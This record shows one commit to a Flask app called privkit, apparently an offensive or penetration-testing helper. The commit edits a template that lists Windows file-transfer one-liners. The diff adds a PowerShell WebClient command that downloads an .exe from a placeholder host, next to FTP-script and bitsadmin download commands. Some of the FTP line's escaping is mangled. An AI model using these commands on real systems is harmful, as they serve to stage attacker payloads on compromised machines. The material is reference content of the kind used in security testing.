

Before and after one commit to krubottom/privkit, a Flask app: template app/templates/scriptgenreturn.html in a window 1280 px wide. Shown: the top 375 px of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Powershell

```diff
--- a/app/templates/scriptgenreturn.html
+++ b/app/templates/scriptgenreturn.html
@@ -6,6 +6,7 @@
 
         FTP:<br>
         echo open host_address &gt ftp_commands.txt & echo anonymous &gt&gt ftp_commands.txt &gt echo password >> ftp_commands.txt &gt echo binary > >ftp_commands.txt &gt echo get check_script &gt&gt ftp_commands.txt & echo bye &gt&gt ftp_commands.txt & ftp -s:ftp_commands.txt
+        powershell -c "(new-object System.Net.WebClient).DownloadFile('http://host/file.exe','C:\Users\user\Desktop\file')" <br>
         <br>
         BITS:<br>
         bitsadmin /transfer wcb /priority high http://address C:\downloads\examplefile.pdf <br>
```
